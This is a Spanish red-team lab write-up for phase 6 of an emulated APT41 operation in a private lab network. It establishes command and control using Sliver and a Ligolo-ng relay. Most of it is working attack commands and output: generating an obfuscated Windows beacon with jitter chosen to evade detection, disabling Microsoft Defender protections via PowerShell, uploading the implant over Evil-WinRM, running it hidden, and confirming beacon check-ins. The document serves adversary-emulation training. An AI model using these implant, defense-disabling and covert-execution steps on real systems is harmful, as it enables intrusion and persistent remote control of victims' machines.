




# C2 Sliver — Operación SILENT BRIDGE
## Fase 6 — Command & Control: Beacon en red interna
**Operación:** SILENT BRIDGE | **Adversario:** APT41 | **Framework:** MITRE ATT&CK v14  
**Operador:** Adrián Camacho | **Fecha:** 15/05/2026  
**Objetivo:** Beacon Sliver activo en PC-01 — C2 a través del túnel Ligolo-ng

---

## FASE 6 — C2 Establishment: Sliver v1.7.3

**Táctica MITRE:** TA0011 — Command and Control  
**Técnicas:**
- T1071.001 — Application Layer Protocol: Web Protocols (HTTPS)
- T1573.002 — Encrypted Channel: Asymmetric Cryptography
- T1587.001 — Develop Capabilities: Malware

### Contexto táctico

PC-01 está en `LabInternal` (10.0.3.0/24) sin visibilidad directa hacia Kali (10.0.2.0/24). El beacon no puede conectar directamente a Kali — necesita un punto de relay. Se configura un **listener en PROD** via Ligolo-ng que reenvía las conexiones del beacon hacia el listener de Sliver en Kali.

**Arquitectura C2:**
```
PC-01 (10.0.3.7)
  → beacon HTTPS → PROD :443 (listener Ligolo-ng)
  → PROD reenvía → Kali :443 (Sliver listener)
```

---

### 6.1 — Listener Sliver en Kali
**Captura:** 

```bash
sudo systemctl start sliver
sliver
```

```
jobs
 ID   Name    Protocol   Port
  1   https   tcp        443
```

Listener HTTPS ya activo del Lab-01. ✅

---

### 6.2 — Listener relay en PROD (Ligolo-ng)
**Técnica MITRE:** T1090 — Proxy

```
# Consola Ligolo-ng
[Agent: root@prod] » listener_add --addr 0.0.0.0:443 --to 10.0.2.9:443
INFO Agent: Listener 0 created on remote agent!
```

PROD escucha en `:443` y reenvía todo el tráfico a `10.0.2.9:443` (Kali Sliver).

---

### 6.3 — Generación del beacon
**Captura:** 

```
generate beacon \
  --http 10.0.3.200:443 \
  --os windows \
  --arch amd64 \
  --format exe \
  --seconds 60 \
  --jitter 15 \
  --save /tmp/beacon_pc01_v2.exe
```

```
[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m54s
[*] Implant saved to /tmp/beacon_pc01_v2.exe
```

| Parámetro | Valor | Razón |
|-----------|-------|-------|
| `--http` | `10.0.3.200:443` | PROD — relay hacia Kali |
| `--seconds 60` | 60s check-in | Balance detección/interactividad |
| `--jitter 15` | ±15s variación | Evita patrón de beaconing fijo |
| Symbol obfuscation | enabled | Evasión de análisis estático |

**Nota:** Primera versión del beacon (`beacon_pc01.exe`) apuntaba a `10.0.2.9:443` directamente — no conectaba porque PC-01 no tiene visibilidad hacia LabRedTeam. Corregido en v2 apuntando al relay PROD.

---

### 6.4 — Preparación de PC-01 — Deshabilitar Defender
**Técnica MITRE:** T1562.001 — Impair Defenses

```powershell
# Desde Evil-WinRM (requiere Tamper Protection desactivada desde GUI)
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableScriptScanning $true
```

> **Nota OPSEC:** Tamper Protection en Windows 11 solo se puede desactivar desde la GUI — no remotamente. En Lab-07 (Lazarus Group) se trabajarán técnicas de evasión de EDR sin necesidad de desactivar Defender (AMSI bypass en memoria, process injection, syscalls directas).

---

### 6.5 — Transferencia y ejecución
**Captura:** 

```powershell
# Evil-WinRM — subir beacon
upload /tmp/beacon_pc01_v2.exe

# Ejecutar en background
Start-Process -FilePath "C:\Users\thomas\Documents\beacon_pc01_v2.exe" -WindowStyle Hidden
```

```
Info: Upload successful! (49164288 bytes)
```

---

### 6.6 — Beacon conectado
**Captura:** 

```
[*] Beacon dc797c42 SUDDEN_COMMUNICATION - 10.0.2.9:34174 (PC-01) - windows/amd64
```

```
beacons

 ID         Name                   Transport   Hostname   Username   OS             Last Check-In   Next Check-In
 be691c17   EASY_PROFIT            http(s)     WKSTN-01   backup_svc windows/amd64  56h49m          56h48m
 dc797c42   SUDDEN_COMMUNICATION   http(s)     PC-01      thomas     windows/amd64  17s             52s
```

```
use dc797c42
whoami    → PC-01\thomas
pwd       → C:\Users\thomas\Documents
```

**Beacon activo:**

| Campo | Valor |
|-------|-------|
| Beacon ID | `dc797c42` |
| Nombre | `SUDDEN_COMMUNICATION` |
| Host | `PC-01` (10.0.3.7) |
| Usuario | `pc-01\thomas` |
| Check-in | 60s ±15s |
| Protocolo | HTTPS via relay PROD |

---

### Resumen Fase 6

```
C2 ESTABLISHMENT — Estado final
════════════════════════════════════════════════════

ARQUITECTURA:
  PC-01 → PROD:443 (Ligolo listener) → Kali:443 (Sliver) ✅

BEACON SUDDEN_COMMUNICATION (dc797c42)
  Host:      PC-01 (10.0.3.7) ✅
  Usuario:   pc-01\thomas ✅
  Protocolo: HTTPS ✅
  Check-in:  60s ±15s jitter ✅

TÉCNICAS MITRE:
  T1587.001 → Develop Capabilities: beacon con symbol obfuscation
  T1105     → Ingress Tool Transfer (upload via Evil-WinRM)
  T1204.002 → User Execution: Start-Process -WindowStyle Hidden
  T1562.001 → Impair Defenses: Defender desactivado
  T1071.001 → C2 via HTTPS
  T1573.002 → Encrypted Channel (Sliver mTLS)
  T1090     → Proxy (relay via PROD Ligolo listener)
```

**Criterio de éxito Fase 6:** ✅

---

**Siguiente fase:** [persistence.md](persistence.md) — Fase 7: Persistencia y objetivo final